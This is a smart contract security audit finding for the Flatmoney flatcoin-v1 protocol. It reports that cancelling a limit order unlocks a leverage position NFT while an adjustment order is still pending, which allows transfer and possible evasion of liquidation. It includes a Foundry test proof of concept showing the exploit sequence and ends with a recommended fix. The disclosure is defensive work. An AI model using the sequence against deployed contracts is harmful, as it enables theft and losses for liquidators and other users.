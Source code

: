 Prehistoric Wintergreen Antelope

high

# NFT Can Be transferred During An Order Announcement

## Summary

NFTs can be transferred to another wallet in the mid of `announceOrder`

## Vulnerability Detail

`NFTs` are locked during order announcement in order to not allow users to transfer those tokens and are unlocked only after order execution

The behavior can be bypassed, consider this scenario:
1. Alice open a leverage position and executed(NFT minted with its id)
2. Alice now calls the `announceLimitOrder` of the LimitOrder.sol file and his nft is now locked
3. Alice invokes the `announceLeverageAdjust` function to adjust his position and in this case the NFT is locked also since it was locked already
4. Now alice calls the `cancelLimitOrder` of the LimitOrder.sol file and have his `NFT unlocked
5. In this case alice can transfer his token to another wallet of his choice

Here is a POC demonstrating the transfer of the token:

In your `OrerHelpers.sol`:
```solidity
 function announceAndExecuteLeverageOpen(
        address traderAccount,
        address keeperAccount,
        uint256 margin,
        uint256 additionalSize,
        uint256 oraclePrice,
        uint256 keeperFeeAmount
    ) public virtual returns (uint256 tokenId) {
        announceOpenLeverage(traderAccount, margin, additionalSize, keeperFeeAmount);

        skip(uint256(vaultProxy.minExecutabilityAge())); // must reach minimum executability time

        int256 fundingRateBefore = vaultProxy.getCurrentFundingRate();

        tokenId = executeOpenLeverage(keeperAccount, traderAccount, oraclePrice);

        assertEq(
            vaultProxy.getCurrentFundingRate(),
            fundingRateBefore,
            "Funding rate should not change immediately after adjustment"
        );
    }
```
in your `AdjustPosition.t.sol` :
```solidity
function test_transfer_while_token_is_supposed_to_be_locked() public {
        vm.startPrank(alice);

        uint256 stableDeposit = 100e18;
        uint256 collateralPrice = 1000e8;

        announceAndExecuteDeposit({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: stableDeposit,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Announce and execute Leverage open order and have the NFt minted(with its id)
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: 10e18,
            additionalSize: 30e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        vm.prank(alice);
        // Announce a limit order and NFT locked
        limitOrderProxy.announceLimitOrder({tokenId: tokenId, priceLowerThreshold: 900e18, priceUpperThreshold: 1100e18});

        // Announce leverage adjsut order   after the limit order annouce: NFT is already locked here, so no issue
        announceAdjustLeverage(alice, tokenId, 10e18, 30e18, 0);

        vm.prank(alice);

        // Alice calls the cancel limit order to cancel and unlocked his NFT .
        limitOrderProxy.cancelLimitOrder(tokenId);

        // Now alice transfer the NFT to bob while the adjust order is still in place and active
        vm.prank(alice);
        leverageModProxy.approve(bob, tokenId);

        // bob transfer to himself via transferFrom
        vm.prank(bob);
        leverageModProxy.transferFrom(alice, bob, tokenId);
    }
```

## Impact
1. The impact here is that Alice was able to transfer his `NFT` to another wallet while still having his `announceLeverageAdjust` active, this can allow him to submit another order and overwrite the mapping with the new wallet
2. Another impact is that , he can adjust his  large position that should be liquidated  to a small position amount by calling the adjust function with very small amount potentially overwriting the mapping, this will make him loss and also the liquidator, and this makes his that large account unliquidatable because it no longer exist in the mapping that get called during liquidation(`getPosition`); this is high as there will be loss of funds 

## Code Snippet
`DelayedOrder.sol`:
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/DelayedOrder.sol#L160

`LimitOrder.sol`:
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LimitOrder.sol#L58

`cancel` func:
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LimitOrder.sol#L87


## Tool used

Manual Review

## Recommendation

Make sure that the the code is able to differentiate the LimitOrder and normal order in terms of Locking and Unlocking of `NFTs` 